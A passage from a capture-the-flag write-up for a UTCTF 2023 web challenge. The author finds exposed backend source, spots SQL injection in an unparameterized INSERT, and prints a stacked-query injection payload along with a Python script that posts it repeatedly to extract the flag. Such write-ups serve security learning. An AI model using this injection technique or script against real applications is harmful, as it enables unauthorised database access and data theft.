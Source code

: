 If we print the response for every character too, we get someghing like this:

```

thanks for confessing[]

```

So `[]` seems to be an empty array. Poking around for a little, we noticed that running again the *SAME* python script, we get different chars admitted:

```
Character 1 seems to be admitted
Character 4 seems to be admitted
Character 7 seems to be admitted
Character 9 seems to be admitted
Character b seems to be admitted
Character g seems to be admitted
Character h seems to be admitted

etc... etc...
```

Differently from before the char `1` is admitted but the `4` that was not in the first attempt now is accepted and instead the `5` is not allowed.

So the page seems to accept messages only sometimes, probably with a random choise from the beckend wich decides if accepting our submission or not.

So after some attempts of injects like  `';--"` we got no result.

By taking a deep look at the page, we noticed that the image is located under the path: `http://guppy.utctf.live:5321/images/img2.png`. The weird fact is that it is named as `img2.png` but no other images in the page are shown. By attempting to make a get request from the browser to check if exists another image with the name `img1.png` (`http://guppy.utctf.live:5321/images/img1.png`) we get another image:


![img_name](/assets/img/UTCTF_2023/confess3.png){: .image-100 }

And **BOOM!!**. It seems to be the code executed by the back-end application. Of course it is `python` so the web application is most probably using the framework `Flask`.

Ignoring this and taking a look at the code we can clearly see a code vulnerable to some kind of `SQL Injection` because no paramaterized queries are used. We're into an `INSERT` but we can see that multiples queries can be executed by adding a `;`, then the result is printed to the user as an array (The empyt array that we saw until now). Since the table name is `confessions`, we can try to inject something like this:

```
"); SELECT * FROM confessions WHERE text LIKE "utctf%"; -- abcd
```

But we have to remember that back-end accept only sometimes our requests, so we can build a script to make it:

```py
import requests as r
import string
import re
bad_response = "not a confession"
url = "http://guppy.utctf.live:5321/confess"

while True:
    to_inject = '"); SELECT * FROM confessions WHERE text LIKE "utflag{% raw  %}{%{% endraw %}"; -- abcd'
    response = r.post(url,data={"confession":to_inject})
    if bad_response not in response.text:
        print("The page returned the following result: ")
        flag = re.findall("utflag\{[a-zA-Z0-9_]{1,}\}",response.text)[0]
        print(flag)
```